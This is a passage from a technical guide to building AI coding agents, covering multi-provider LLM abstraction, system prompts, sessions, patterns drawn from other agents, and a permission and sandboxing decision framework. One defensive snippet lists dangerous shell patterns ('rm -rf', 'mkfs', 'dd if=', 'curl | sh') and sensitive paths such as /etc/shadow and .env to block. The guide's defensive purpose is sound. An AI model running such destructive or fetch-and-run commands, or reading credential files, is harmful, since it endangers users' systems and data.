interface ProviderConfig {
  name: string;           // "openai", "anthropic", "custom"
  apiKey: string;         // API key
  baseUrl?: string;       // Custom endpoint URL
  model?: string;         // Default model
  maxTokens?: number;     // Default max tokens
  timeout?: number;       // Request timeout in seconds
  headers?: Record<string, string>;  // Custom headers
}
```

#### Built-in Providers

```typescript
// OpenAI provider
class OpenAIProvider implements Provider {
  name = "openai";
  
  constructor(config: ProviderConfig) {
    this.client = new OpenAI({
      apiKey: config.apiKey,
      baseURL: config.baseUrl || "https://api.openai.com/v1",
    });
  }
  
  async chat(messages, tools) {
    const response = await this.client.chat.completions.create({
      model: this.config.model || "gpt-4o",
      messages,
      tools,
    });
    return this.parseResponse(response);
  }
}

// Anthropic provider
class AnthropicProvider implements Provider {
  name = "anthropic";
  
  constructor(config: ProviderConfig) {
    this.client = new Anthropic({
      apiKey: config.apiKey,
    });
  }
  
  async chat(messages, tools) {
    // Anthropic uses system as separate param
    const { system, chatMessages } = this.extractSystem(messages);
    const response = await this.client.messages.create({
      model: this.config.model || "claude-sonnet-4-20250514",
      system,
      messages: chatMessages,
      tools,
    });
    return this.parseResponse(response);
  }
}

// Google provider
class GoogleProvider implements Provider {
  name = "google";
  
  async chat(messages, tools) {
    // Google uses different message format
    const contents = this.convertMessages(messages);
    const response = await this.client.generateContent({
      model: this.config.model || "gemini-2.0-flash",
      contents,
      tools,
    });
    return this.parseResponse(response);
  }
}
```

#### Custom Provider (User-Defined)

**This is what makes your agent flexible. Users can add their own providers.**

```typescript
// Custom provider for any OpenAI-compatible endpoint
class CustomProvider implements Provider {
  name: string;
  private baseUrl: string;
  private apiKey: string;
  private model: string;
  
  constructor(config: ProviderConfig) {
    this.name = config.name;
    this.baseUrl = config.baseUrl;
    this.apiKey = config.apiKey;
    this.model = config.model || "default";
  }
  
  async chat(messages, tools) {
    // Use OpenAI-compatible API (works with vLLM, LiteLLM, Ollama, etc.)
    const response = await fetch(`${this.baseUrl}/chat/completions`, {
      method: "POST",
      headers: {
        "Authorization": `Bearer ${this.apiKey}`,
        "Content-Type": "application/json",
        ...this.config.headers,
      },
      body: JSON.stringify({
        model: this.model,
        messages,
        tools,
      }),
    });
    return this.parseResponse(await response.json());
  }
}

// Usage:
const ollama = new CustomProvider({
  name: "ollama",
  baseUrl: "http://localhost:11434/v1",
  apiKey: "ollama",  // Ollama doesn't need real key
  model: "llama3",
});

const vllm = new CustomProvider({
  name: "vllm",
  baseUrl: "http://localhost:8000/v1",
  apiKey: "vllm",
  model: "meta-llama/Llama-3-70B",
});

const litellm = new CustomProvider({
  name: "litellm",
  baseUrl: "http://localhost:4000/v1",
  apiKey: "sk-...",
  model: "gpt-4o",  // LiteLLM routes to actual provider
});
```

#### Provider Registry

```typescript
// Central registry for all providers
class ProviderRegistry {
  private providers: Map<string, Provider> = new Map();
  
  // Register a provider
  register(provider: Provider): void {
    this.providers.set(provider.name, provider);
  }
  
  // Get a provider by name
  get(name: string): Provider | undefined {
    return this.providers.get(name);
  }
  
  // List all registered providers
  list(): string[] {
    return Array.from(this.providers.keys());
  }
  
  // Get default provider
  getDefault(): Provider {
    return this.providers.values().next().value;
  }
  
  // Check if provider exists
  has(name: string): boolean {
    return this.providers.has(name);
  }
}

// Usage:
const registry = new ProviderRegistry();

// Register built-in providers
registry.register(new OpenAIProvider({ apiKey: "sk-...", model: "gpt-4o" }));
registry.register(new AnthropicProvider({ apiKey: "sk-ant-...", model: "claude-sonnet-4" }));
registry.register(new GoogleProvider({ apiKey: "AIza...", model: "gemini-2.0-flash" }));

// Register custom providers
registry.register(new CustomProvider({
  name: "ollama",
  baseUrl: "http://localhost:11434/v1",
  apiKey: "ollama",
  model: "llama3",
}));

// Use any provider
const provider = registry.get("ollama");
const response = await provider.chat(messages);
```

#### Provider Fallback Chain

```typescript
// Try providers in order until one succeeds
class FallbackChain {
  constructor(private providers: Provider[]) {}
  
  async chat(messages, tools): Promise<LLMResponse> {
    const errors: Error[] = [];
    
    for (const provider of this.providers) {
      try {
        return await provider.chat(messages, tools);
      } catch (error) {
        errors.push(error);
        console.warn(`Provider ${provider.name} failed: ${error.message}`);
        continue;
      }
    }
    
    throw new Error(`All providers failed: ${errors.map(e => e.message).join(", ")}`);
  }
}

// Usage:
const chain = new FallbackChain([
  registry.get("openai"),      // Try OpenAI first
  registry.get("anthropic"),   // Then Anthropic
  registry.get("ollama"),      // Then local Ollama
]);

const response = await chain.chat(messages);  // Uses first that works
```

#### Provider Routing (Task-Based)

```typescript
// Select provider based on task type
class ProviderRouter {
  constructor(private registry: ProviderRegistry) {}
  
  select(taskType: string, preferences?: { cost?: "low" | "medium" | "high" }): Provider {
    const routes: Record<string, string> = {
      "simple": "ollama",           // Local, free
      "coding": "anthropic",        // Best for code
      "research": "openai",         // Good all-round
      "planning": "ollama",         // Cheap for planning
      "complex": "anthropic",       // Best reasoning
    };
    
    // Override with cost preference
    if (preferences?.cost === "low") {
      return this.registry.get("ollama") || this.registry.getDefault();
    }
    
    return this.registry.get(routes[taskType]) || this.registry.getDefault();
  }
}

// Usage:
const router = new ProviderRouter(registry);

// Simple task → local Ollama (free)
const simpleProvider = router.select("simple");

// Coding task → Anthropic (best for code)
const codingProvider = router.select("coding");

// Budget-conscious → local Ollama
const cheapProvider = router.select("coding", { cost: "low" });
```

#### OpenAI-Compatible Endpoints

Most custom LLM servers use OpenAI-compatible API. This is the key to supporting ANY provider:

```typescript
// Works with:
// - Ollama (http://localhost:11434/v1)
// - vLLM (http://localhost:8000/v1)
// - LiteLLM (http://localhost:4000/v1)
// - LM Studio (http://localhost:1234/v1)
// - Text Generation WebUI (http://localhost:5000/v1)
// - Any OpenAI-compatible server

class OpenAICompatibleProvider implements Provider {
  async chat(messages, tools) {
    const response = await fetch(`${this.baseUrl}/chat/completions`, {
      method: "POST",
      headers: {
        "Authorization": `Bearer ${this.apiKey}`,
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        model: this.model,
        messages: messages.map(m => ({
          role: m.role,
          content: m.content,
        })),
        tools: tools?.map(t => ({
          type: "function",
          function: {
            name: t.name,
            description: t.description,
            parameters: t.parameters,
          },
        })),
        stream: false,
      }),
    });
    
    const data = await response.json();
    return {
      content: data.choices[0].message.content,
      toolCalls: data.choices[0].message.tool_calls,
      usage: data.usage,
    };
  }
}
```

#### Provider Configuration (YAML/JSON)

```yaml
# providers.yaml — user configures their providers
providers:
  - name: openai
    type: openai
    api_key: ${OPENAI_API_KEY}
    model: gpt-4o
    max_tokens: 4096
    
  - name: anthropic
    type: anthropic
    api_key: ${ANTHROPIC_API_KEY}
    model: claude-sonnet-4-20250514
    
  - name: ollama
    type: openai-compatible
    base_url: http://localhost:11434/v1
    api_key: ollama
    model: llama3
    
  - name: vllm
    type: openai-compatible
    base_url: http://localhost:8000/v1
    api_key: vllm
    model: meta-llama/Llama-3-70B

  - name: custom
    type: openai-compatible
    base_url: https://my-server.com/v1
    api_key: ${CUSTOM_API_KEY}
    model: my-model
    headers:
      X-Custom-Header: value

routing:
  simple: ollama
  coding: anthropic
  research: openai
  default: openai

fallback:
  - openai
  - anthropic
  - ollama
```

**NEVER hardcode to one provider. Always support:**
1. Built-in providers (OpenAI, Anthropic, Google)
2. Custom providers (user-defined OpenAI-compatible endpoints)
3. Provider registry (register, get, list)
4. Fallback chain (try multiple providers)
5. Task-based routing (select provider by task type)
6. Configuration file (providers.yaml)

### 11.2 Model Definition

```typescript
interface Model<Api> {
  id: string;
  name: string;
  api: Api;
  provider: string;
  baseUrl: string;
  reasoning: boolean;
  input: ("text" | "image" | "audio")[];
  cost: { input: number; output: number; cacheRead: number; cacheWrite: number };
  contextWindow: number;
  maxTokens: number;
}
```

### 11.3 Streaming

```typescript
// Main streaming function
function streamSimple(
  model: Model<any>,
  context: Context,
  options: SimpleStreamOptions,
): AssistantMessageEventStream;

// Event types:
type AssistantMessageEvent =
  | { type: "start"; partial: AssistantMessage }
  | { type: "text_start" | "text_delta" | "text_end"; partial: AssistantMessage }
  | { type: "thinking_start" | "thinking_delta" | "thinking_end"; partial: AssistantMessage }
  | { type: "toolcall_start" | "toolcall_delta" | "toolcall_end"; partial: AssistantMessage }
  | { type: "done"; message: AssistantMessage }
  | { type: "error"; error: AssistantMessage };
```

### 11.4 EventStream

```typescript
class EventStream<T, R> implements AsyncIterable<T> {
  push(event: T): void;
  end(result?: R): void;
  result(): Promise<R>;
  [Symbol.asyncIterator](): AsyncIterator<T>;
}
```

### 11.5 Stream Options

```typescript
interface SimpleStreamOptions {
  temperature?: number;
  maxTokens?: number;
  signal?: AbortSignal;
  apiKey?: string;
  transport?: Transport;           // "sse" | "websocket" | "auto"
  cacheRetention?: CacheRetention; // "none" | "short" | "long"
  sessionId?: string;
  headers?: Record<string, string>;
  timeoutMs?: number;
  maxRetries?: number;
  maxRetryDelayMs?: number;
  reasoning?: ThinkingLevel;
  thinkingBudgets?: ThinkingBudgets;
  metadata?: Record<string, unknown>;
  onPayload?: (payload: unknown, model: Model<Api>) => unknown | undefined;
  onResponse?: (response: ProviderResponse, model: Model<Api>) => void;
}
```

### 11.6 Provider Registration

```typescript
function registerApiProvider<Api extends string>(
  api: Api,
  handler: (
    model: Model<Api>,
    context: Context,
    options: SimpleStreamOptions,
  ) => AssistantMessageEventStream,
): void;
```

---

## 12. SYSTEM PROMPT (`packages/coding-agent/src/core/system-prompt.ts`)

### 12.1 Structure

```
You are an expert coding assistant operating inside a coding agent harness.

Available tools:
- read: <snippet>
- bash: <snippet>
- edit: <snippet>
- write: <snippet>

Guidelines:
- Be concise in your responses
- Show file paths clearly when working with files
- [additional guidelines from extensions]

<project_context>
<Project instructions from AGENTS.md, CLAUDE.md, etc.>
</project_context>

<skills>
<skill name="..." location="...">
[Skill content]
</skill>
</skills>

Current date: YYYY-MM-DD
Current working directory: /path/to/project
```

### 12.2 Context Files

Project context files (AGENTS.md, CLAUDE.md, .cursorrules, etc.) are loaded and injected into `<project_context>` tags.

### 12.3 Skills in System Prompt

Skills are formatted as XML blocks:
```xml
<skills>
<skill name="skill-name" location="/path/to/SKILL.md">
References are relative to /path/to/.

[Full skill content]
</skill>
</skills>
```

---

## 13. SKILLS & PROMPT TEMPLATES

### 13.1 Skills

```typescript
interface Skill {
  name: string;
  description: string;
  content: string;
  filePath: string;
  disableModelInvocation?: boolean;
}
```

**Loading**: Recursively scan directories for `SKILL.md` files. Parse YAML frontmatter for name/description. Honor `.gitignore`/`.ignore` files.

**Format**:
```markdown
---
name: my-skill
description: "When to use this skill"
---

# Skill Content
[Instructions for the agent]
```

### 13.2 Prompt Templates

```typescript
interface PromptTemplate {
  name: string;
  description?: string;
  content: string;
}
```

**Loading**: Load `.md` files from directories. Parse YAML frontmatter.

**Invocation**: `formatPromptTemplateInvocation(template, args)` — replaces `{{N}}` placeholders with args.

---

## 14. EVENT-DRIVEN ARCHITECTURE

### 14.1 Event Flow

```
User Input
  ↓
AgentHarness.prompt()
  ↓
AgentHarness.executeTurn()
  ↓
runAgentLoop()
  ├── emit: agent_start
  ├── emit: turn_start
  ├── emit: message_start (user message)
  ├── emit: message_end (user message)
  │
  ├── [LLM Call]
  │   ├── emit: message_start (assistant partial)
  │   ├── emit: message_update (text_delta, toolcall_delta, etc.)
  │   └── emit: message_end (assistant final)
  │
  ├── [Tool Execution]
  │   ├── emit: tool_execution_start
  │   ├── emit: tool_execution_update (partial)
  │   ├── emit: tool_execution_end
  │   └── emit: message_end (tool result)
  │
  ├── emit: turn_end
  │
  └── emit: agent_end
```

### 14.2 Hook Chain

Multiple hooks can be registered for the same event type. They execute in registration order, each receiving the result of the previous one (for hooks that return values).

---

## 15. KEY DESIGN PATTERNS

### 15.1 Immutable Snapshots
Context is sliced/copied before each turn to prevent mutations from affecting other code paths.

### 15.2 Queue-Based Steering
User can inject messages without interrupting the agent. Three queue types:
- **Steer**: Inject mid-run (after current tool batch)
- **Follow-up**: Process after agent would stop
- **Next-turn**: Prepend to next turn's messages

### 15.3 Tree-Based Sessions
Not a linear log, but a tree with branching. Enables:
- Fork from any point
- Navigate branches
- Branch summaries

### 15.4 Compaction
Auto-summarize old messages to stay within context window. Keeps recent messages intact, replaces old ones with summary.

### 15.5 TypeBox Schemas
Tool parameters are validated via TypeBox (JSON Schema with type inference).

### 15.6 Provider Abstraction
Same API for 20+ LLM providers. Providers register handlers for their API type.

### 15.7 Extension System
Full plugin system with lifecycle hooks, tool registration, UI primitives, and event subscription.

### 15.8 Declaration Merging
Custom message types added via TypeScript declaration merging — no core modifications needed.

---

## 16. IMPLEMENTATION GUIDE

### 16.1 Minimum Viable Agent

To build a minimal coding agent:

1. **AI Layer**: Implement `streamSimple()` for your LLM provider
2. **Types**: Define `AgentMessage`, `AgentTool`, `AgentEvent`, `AgentContext`
3. **Agent Loop**: Implement `runLoop()` with tool execution
4. **Agent Class**: Wrap loop with state management and queueing
5. **Tools**: Implement `read`, `write`, `bash`, `edit`
6. **Session**: Implement `InMemorySessionStorage`
7. **ConvertToLlm**: Implement message conversion
8. **System Prompt**: Build system prompt with tools and guidelines

### 16.2 Full Implementation Order

```
Phase 1: Foundation
  1. packages/ai/types.ts — Core types
  2. packages/ai/utils/event-stream.ts — EventStream class
  3. packages/ai/providers/ — One provider (e.g., OpenAI)
  4. packages/agent/types.ts — Agent types
  5. packages/agent/agent-loop.ts — Core loop
  6. packages/agent/agent.ts — Agent class

Phase 2: Tools & Session
  7. packages/coding-agent/tools/read.ts
  8. packages/coding-agent/tools/write.ts
  9. packages/coding-agent/tools/bash.ts
  10. packages/coding-agent/tools/edit.ts
  11. packages/agent/harness/session/memory-storage.ts
  12. packages/agent/harness/session/session.ts
  13. packages/agent/harness/messages.ts — convertToLlm

Phase 3: Harness & Extensions
  14. packages/agent/harness/agent-harness.ts
  15. packages/agent/harness/types.ts
  16. packages/coding-agent/extensions/types.ts
  17. packages/coding-agent/extensions/runner.ts
  18. packages/coding-agent/system-prompt.ts

Phase 4: Advanced
  19. packages/agent/harness/compaction/
  20. packages/agent/harness/skills.ts
  21. packages/agent/harness/prompt-templates.ts
  22. packages/coding-agent/model-registry.ts
  23. packages/tui/ — Terminal UI
  24. More providers (Anthropic, Google, etc.)
```

### 16.3 Critical Invariants

1. **AgentMessage → Message conversion must never throw** — return safe fallback
2. **Context snapshots must be immutable** — always slice/copy before passing
3. **Tool execution must respect AbortSignal** — check signal.aborted frequently
4. **Events must be emitted in order** — listeners await in subscription order
5. **Session writes are batched** — flushed at turn_end and agent_end
6. **Queue drain respects QueueMode** — "all" or "one-at-a-time"
7. **Compaction preserves recent context** — keepRecentTokens threshold
8. **Tool termination requires ALL results** — every tool in batch must set terminate=true

---

## 17. PITFALLS & LESSONS

1. **Import cycles**: tools ↔ extensions/types.ts creates tight coupling. Use interfaces to break cycles.
2. **Parallel tool execution**: Prepare sequentially, execute concurrently. Order matters for ToolResultMessages.
3. **API key expiration**: Use `getApiKey` callback for OAuth tokens that may expire during long runs.
4. **Streaming partial messages**: Must update context.messages in-place for streaming to work.
5. **Session tree integrity**: parentId must always point to existing entry. Validate on append.
6. **Compaction timing**: Only compact when context exceeds threshold. Don't compact on every turn.
7. **Extension keybinding conflicts**: Reserved keybindings (Ctrl+C, etc.) cannot be overridden by extensions.
8. **Tool argument validation**: Use TypeBox Compile for runtime validation. prepareArguments() for legacy compat.

---

## 18. MULTI-AGENT KNOWLEDGE (18 Agents Studied)

This section documents patterns extracted from studying 18 AI coding agents — not just Pi. Each agent contributes unique patterns.

### Agent Overview

| Agent | Language | Key Innovation |
|-------|----------|----------------|
| **Pi Agent** | TypeScript | Two-loop architecture, tree sessions, extensions |
| **Aider** | Python | Git-native workflow, edit formats, architect pattern |
| **OpenCode** | TypeScript | Effect-TS system, plugin architecture, permission events |
| **OpenClaw** | TypeScript | Agent-harness, branch summarization, multi-platform |
| **Kilo Code** | TypeScript | Scout mode, reference guidance, VS Code integration |
| **Claude Code** | Closed | Permission levels (auto/confirm/block), tool sandboxing |
| **Codex** | Closed | Container sandboxing, cloud execution |
| **Cursor** | Closed | Context-aware editing, @codebase indexing |
| **Devin** | Closed | Full coding environment (browser + terminal + editor) |
| **Kiro** | Closed | Spec-driven development, hooks system |

### Pattern 1: Edit Formats (from Aider)

The LLM outputs EDIT INSTRUCTIONS, not raw code. More precise, less hallucination.

```python
# Aider supports 7 edit formats:
# editblock: SEARCH/REPLACE blocks (most popular)
# wholefile: Write entire file content
# udiff: Unified diff format
# patch: Patch format with context

class EditBlockCoder:
    def apply_edits(self, content: str, edits: list[Edit]) -> str:
        for edit in edits:
            if edit.search_text not in content:
                raise EditNotFound(edit.search_text)
            content = content.replace(edit.search_text, edit.replace_text, 1)
        return content
```

**Why:** Raw LLM output is unreliable. Edit instructions are bounded and precise.
**Lesson:** Don't let LLM write entire files. Use SEARCH/REPLACE or diff format.

### Pattern 2: Architect Pattern (from Aider)

Separate PLANNING from EXECUTION with two roles.

```python
# Architect: Plans what to change (high-level reasoning)
# Editor: Applies the changes (precise code edits)

class ArchitectCoder:
    system_prompt = """
    Act as an expert architect engineer.
    Study the change request and the current code.
    Describe how to modify the code to complete the request.
    The editor will rely solely on your instructions.
    """
```

**Why:** LLMs are better at planning than precise editing. Separating improves quality.
**Lesson:** Consider a two-agent pattern: one plans, one executes.

### Pattern 3: Git-Native Workflow (from Aider)

Auto-commit after every edit. Every change is tracked and reversible.

```python
class Repo:
    def commit(self, message: str, files: list[str]):
        for f in files:
            self.repo.git.add(f)
        self.repo.index.commit(message)
```

**Why:** Transparency. User can `git undo` any change.
**Lesson:** Integrate with version control. Auto-commit. Make every change reversible.

### Pattern 4: Effect-TS Architecture (from OpenCode)

Type-safe, composable operations with dependency injection.

```typescript
// 764 files use Effect-TS
// Key: typed errors, dependency injection via Layers, composable operations

export const Permission = {
  ask: (input: PermissionAskInput): Effect<void, PermissionError> =>
    Effect.gen(function* () {
      yield* Event.emit("permission.asked", input)
      const reply = yield* waitForReply(input.id)
      if (reply.denied) yield* Effect.fail(new PermissionError(input))
    }),
}
```

**Why:** Type-safe errors, testable code, composable operations.
**Lesson:** Use typed errors and dependency injection. Don't use raw try/catch everywhere.

### Pattern 5: Agent-Harness Separation (from OpenClaw)

Agent = pure logic (call LLM, execute tools). Harness = orchestration (session, compaction, steering).

```typescript
class AgentHarness {
  session: Session
  compaction: CompactionSystem
  steering: PendingMessageQueue
  skills: Skill[]
  
  async prompt(text: string, options: StreamOptions) {
    // 1. Create user message
    // 2. Run agent loop
    // 3. Handle compaction if needed
    // 4. Save to session
    // 5. Emit events
  }
}
```

**Why:** Separation of concerns. Agent is pure and testable. Harness handles messy orchestration.
**Lesson:** Separate agent logic from orchestration.

### Pattern 6: Branch Summarization (from OpenClaw)

Summarize conversation branches independently, not just linearly.

```typescript
async function compact(session: Session, model: Model) {
  const branches = session.getBranches()
  for (const branch of branches) {
    if (branch.age > COMPACTION_THRESHOLD) {
      const summary = await summarize(branch.messages)
      branch.replaceWith(summary)
    }
  }
}
```

**Why:** Tree-based sessions have many branches. Compacting separately preserves more context.
**Lesson:** If you have branching sessions, compact branches independently.

### Pattern 7: Permission Levels (from Claude Code)

Three levels: AUTO (safe), CONFIRM (ask user), BLOCK (dangerous).

```typescript
const PERMISSIONS = {
  "read_file": "auto",      // Safe
  "write_file": "confirm",  // Needs approval
  "bash": "confirm",        // Needs approval
  "delete_file": "block",   // Dangerous
}
```

**Why:** Not all tools are equal. Reading is safe. Writing needs approval. Deleting is dangerous.
**Lesson:** Categorize tools by risk level.

### Pattern 8: Scout Mode (from Kilo Code)

Explore codebase BEFORE making changes. Read many files first, then edit.

```typescript
const scoutPrompt = `
Before making any changes, explore the codebase:
1. Find all files related to the task
2. Understand the architecture
3. Identify dependencies
4. Plan all changes needed
THEN make the changes.
`
```

**Why:** Agents that jump to editing often miss context.
**Lesson:** Read before writing. Explore before editing.

### Pattern 9: Reference Guidance (from Kilo Code)

Context-aware references injected based on the current task.

```typescript
interface Reference {
  name: string
  content: string
  trigger: (task: string) => boolean
}
```

**Why:** Generic system prompts waste tokens. Targeted references are more useful.
**Lesson:** Use context-aware references, not one-size-fits-all prompts.

### Pattern 10: Container Sandboxing (from Codex)

Run code in isolated containers. File changes are sandboxed. Network restricted.

```typescript
interface Sandbox {
  containerId: string
  mountPoint: string
  networkPolicy: "none" | "restricted" | "full"
  timeout: number
}
```

**Why:** Agents running arbitrary code are dangerous.
**Lesson:** If your agent runs code, sandbox it.

### Decision Framework (Deep)

15 decision points for building AI coding agents. Each with conditions, choices, justification, risks, and mitigation.

#### Decision 1: Edit Format

```
Q: How should the LLM edit files?

File < 200 lines?
├── Yes → WholeFile format
│   Why: LLM sees full context, more accurate for small files
│   Risk: Token expensive for large files
│   Mitigation: Only use for small files or new files
│
└── No → EditBlock format (SEARCH/REPLACE)
    Why: Only changes what needs changing, saves tokens
    Risk: LLM sometimes gets SEARCH text wrong (off by whitespace)
    Mitigation: Fuzzy match when exact match fails (strip whitespace, normalize)
    Code:
      def fuzzy_search(content, search_text):
          # Try exact first
          if search_text in content:
              return search_text
          # Try normalized
          normalized = search_text.strip()
          if normalized in content:
              return normalized
          # Try line-by-line match
          for line in content.split('\n'):
              if line.strip() == search_text.strip():
                  return line
          return None

Multiple files at once?
├── 1-3 files → EditBlock per file
├── 4-10 files → Architect pattern first (plan, then edit)
└── > 10 files → Scout mode (read all, plan, then edit)
```

#### Decision 2: Agent Architecture

```
Q: Single agent or multi-agent?

Task is simple (read file, answer question)?
└── Single agent loop
    Why: Simple tasks don't need orchestration overhead
    Risk: None

Task involves planning + execution?
└── Architect + Editor (Aider pattern)
    Why: LLMs plan better than they edit. Separating improves quality.
    Risk: Two LLM calls = 2x cost
    Mitigation: Use cheap model for planning, expensive for editing
    Code:
      # Architect uses gpt-4o-mini (cheap, good at planning)
      architect = Agent(model="gpt-4o-mini", system=ARCHITECT_PROMPT)
      plan = architect.run("Plan changes for: " + task)
      
      # Editor uses gpt-4o (expensive, good at code)
      editor = Agent(model="gpt-4o", system=EDITOR_PROMPT)
      editor.run("Apply this plan: " + plan)

Task involves research + coding?
└── Scout + Coder (Kilo Code pattern)
    Why: Research phase finds context, coding phase applies changes
    Risk: Scout might miss relevant files
    Mitigation: Use grep/find to identify candidate files first
```

#### Decision 3: Git Integration

```
Q: Should the agent auto-commit changes?

Working in a git repo?
├── Yes → Auto-commit after every edit
│   Why: Every change is tracked, user can git undo
│   Risk: Commit history gets noisy (many small commits)
│   Mitigation: Squash commits before push
│   Code:
│     def auto_commit(repo, files, message):
│         for f in files:
│             repo.git.add(f)
│         repo.index.commit(f"[agent] {message}")
│
└── No → Manual commit
    Why: No git = no auto-commit possible
    Risk: Changes can be lost if agent crashes
    Mitigation: Save session state periodically

User doing experimental work?
├── Yes → Create branch first
│   Why: Easy to discard all changes if experiment fails
│   Code:
│     repo.git.checkout('-b', f'agent-experiment-{timestamp}')
│
└── No → Work on current branch
```

#### Decision 4: Permission Levels

```
Q: How should tools be permissioned?

Tool reads data (read_file, search, grep)?
└── AUTO — execute without asking
    Why: Reading is safe, no side effects
    Risk: Could read sensitive files
    Mitigation: Block specific paths (/etc/shadow, .env)

Tool writes data (write_file, edit)?
├── Development environment → AUTO
│   Why: Dev is safe, user can undo
│
└── Production environment → CONFIRM
    Why: Production writes need human oversight
    Code:
      if environment == "production":
          confirmed = await ask_user(f"Write to {path}?")
          if not confirmed:
              return "User declined"

Tool executes code (bash, eval)?
├── Simple commands (ls, cat, grep) → AUTO
├── Complex commands (npm, pip, git) → CONFIRM
└── Dangerous commands (rm, curl|sh) → BLOCK
    Code:
      DANGEROUS = ["rm -rf", "mkfs", "dd if=", "curl | sh"]
      for pattern in DANGEROUS:
          if pattern in command:
              return "BLOCKED: dangerous command"

Tool deletes data?
└── BLOCK — never auto-execute
    Why: Deletion is irreversible without backups
    Mitigation: Always ask, suggest backup first
```

#### Decision 5: Context Window Strategy

```
Q: How to handle long conversations?

Conversation < 50% of context window?
└── No action needed
    Why: Plenty of room

Conversation 50-80% of context window?
├── Option A: Sliding window (drop oldest messages)
│   Why: Simple, fast
│   Risk: Loses important early context
│   Mitigation: Keep system prompt + first user message always
│
├── Option B: Summarize old messages
│   Why: Preserves key information
│   Risk: Summary might miss details
│   Mitigation: Keep last 10 messages verbatim, summarize the rest
│   Code:
│     if len(messages) > KEEP_RECENT:
│         old = messages[:-KEEP_RECENT]
│         recent = messages[-KEEP_RECENT:]
│         summary = await llm.summarize(old)
│         messages = [system(summary)] + recent
│
└── Option C: Hierarchical (short-term + long-term memory)
    Why: Best context preservation
    Risk: Complex to implement
    Mitigation: Use vector store for long-term memory

Conversation > 90% of context window?
└── Force compaction (summarize immediately)
    Why: Agent will crash if context overflows
    Code:
      if token_count > max_tokens * 0.9:
          messages = await compact(messages, model)
```

#### Decision 6: Error Handling

```
Q: How to handle errors?

LLM API error (429, 500, timeout)?
├── Retry with exponential backoff
│   Why: Most API errors are transient
│   Code:
│     for attempt in range(max_retries):
│         try:
│             return await provider.chat(messages)
│         except RateLimitError:
│             await asyncio.sleep(2 ** attempt)
│         except ServerError:
│             await asyncio.sleep(2 ** attempt)
│     raise AllRetriesFailed()
│
└── Fallback to different provider
    Why: If one provider is down, another might work
    Code:
      try:
          return await openai.chat(messages)
      except:
          return await anthropic.chat(messages)

Tool execution error?
├── Critical tool (must succeed) → Retry 3x, then abort
├── Non-critical tool → Log error, continue without result
└── User-visible error → Show error to user, ask for guidance
    Code:
      try:
          result = await tool.execute(args)
      except ToolError as e:
          if tool.critical:
              raise
          return ToolResult(error=str(e), is_error=True)

LLM returns malformed output?
├── JSON parse error → Ask LLM to fix (retry with error context)
├── Missing required fields → Ask LLM to complete
└── Completely wrong format → Fall back to simpler prompt
```

#### Decision 7: Streaming

```
Q: Should the agent stream responses?

User is waiting in real-time (chat, terminal)?
├── Yes → Stream token by token
│   Why: User sees progress, feels faster
│   Risk: Harder to handle tool calls mid-stream
│   Mitigation: Buffer tool calls until complete
│
└── No → Wait for full response
    Why: Simpler implementation
    Risk: User waits with no feedback
    Mitigation: Show "thinking..." indicator

Agent running in background (batch, CI)?
└── No streaming needed
    Why: No one is watching
    Benefit: Simpler code, easier error handling
```

#### Decision 8: Parallel vs Sequential Tool Execution

```
Q: Should tools run in parallel?

Tools are independent (read file A + read file B)?
├── Yes → Run in parallel
│   Why: 2x faster
│   Code:
│     results = await asyncio.gather(
│         tool_a.execute(args_a),
│         tool_b.execute(args_b),
│     )
│
└── No if tools depend on each other
    Example: Read file → Edit file (must be sequential)
    Code:
      result_a = await read_file(path)
      result_b = await edit_file(path, result_a + edits)

How many parallel tools?
├── 2-5 → Fine, most providers support it
├── 6-10 → Check provider limits (OpenAI max 10 tool calls)
└── > 10 → Batch into groups of 5
```

#### Decision 9: Compaction Trigger

```
Q: When to compact the conversation?

Token count < 60% of max?
└── Don't compact
    Why: Plenty of room, compaction loses info

Token count 60-80%?
├── Option A: Compact proactively
│   Why: Prevents sudden forced compaction later
│   Risk: Might compact too early, losing useful context
│
└── Option B: Wait until 80%
    Why: Preserve as much context as possible
    Risk: If next message is large, forced compaction

Token count > 80%?
└── Compact immediately
    Why: Must prevent context overflow
    Code:
      if tokens > max_tokens * 0.8:
          messages = await compact(messages, model=model)

What to compact?
├── Summarize old messages (preserves meaning)
├── Drop tool results (can re-execute if needed)
└── Keep system prompt + recent 10 messages always
```

#### Decision 10: Model Selection

```
Q: Which model for which task?

Simple task (format code, fix typo)?
└── Use cheap model (gpt-4o-mini, claude-haiku)
    Why: 10x cheaper, fast, good enough
    Cost: $0.15/1M input tokens

Complex task (refactor architecture, debug)?
└── Use expensive model (gpt-4o, claude-sonnet)
    Why: Better reasoning, fewer mistakes
    Cost: $5/1M input tokens

Code-specific task?
└── Use code-optimized model
    Why: Better at code generation and understanding
    Options: claude-sonnet (best for code), gpt-4o (good all-round)

Planning task?
└── Use fast model (gpt-4o-mini)
    Why: Planning needs reasoning, not code precision
    Save expensive model for execution

Adaptive selection:
    def select_model(task_type, complexity):
        if task_type == "simple":
            return "gpt-4o-mini"
        elif task_type == "code" and complexity > 0.7:
            return "claude-sonnet-4"
        else:
            return "gpt-4o"
```

#### Decision 11: Sandboxing

```
Q: Should code execution be sandboxed?

Agent runs user-provided code?
└── YES — always sandbox
    Why: Arbitrary code execution is dangerous
    Options:
    - Docker container (most secure)
    - E2B sandbox (cloud, easy setup)
    - Restricted subprocess (least secure)

Agent runs its own generated code?
├── Production → Sandbox (container)
├── Development → Local with restrictions
└── Local personal → No sandbox needed

Sandbox configuration:
    sandbox = {
        "image": "python:3.11",
        "mount": "/workspace",
        "network": "restricted",  # Block external APIs
        "timeout": 30,            # Kill after 30s
        "memory": "512m",         # Memory limit
    }
```

#### Decision 12: Session Storage

```
Q: How to persist session data?

Need persistence across restarts?
├── No → In-memory storage
│   Why: Fastest, simplest
│   Risk: Lost on crash
│
├── Yes, simple → JSON file storage
│   Why: Easy to implement, human-readable
│   Risk: Slow for large sessions
│
└── Yes, production → SQLite database
    Why: Fast queries, concurrent access, ACID
    Code:
      CREATE TABLE sessions (
          id TEXT PRIMARY KEY,
          branch_id TEXT,
          data JSON,
          timestamp REAL
      )

Need branching?
├── Yes → Tree-based storage (Pi pattern)
│   Each entry has parent_id, enables undo/redo
│
└── No → Linear storage (append-only log)
```

#### Decision 13: Tool Timeouts

```
Q: How long to wait for tool execution?

Read file → 5 seconds
Write file → 5 seconds
Bash command → 30 seconds (default)
Network request → 15 seconds
LLM call → 60 seconds

    TIMEOUTS = {
        "read_file": 5,
        "write_file": 5,
        "bash": 30,
        "web_request": 15,
        "llm_call": 60,
    }

What happens on timeout?
├── Non-critical → Return timeout error, continue
└── Critical → Retry once, then abort
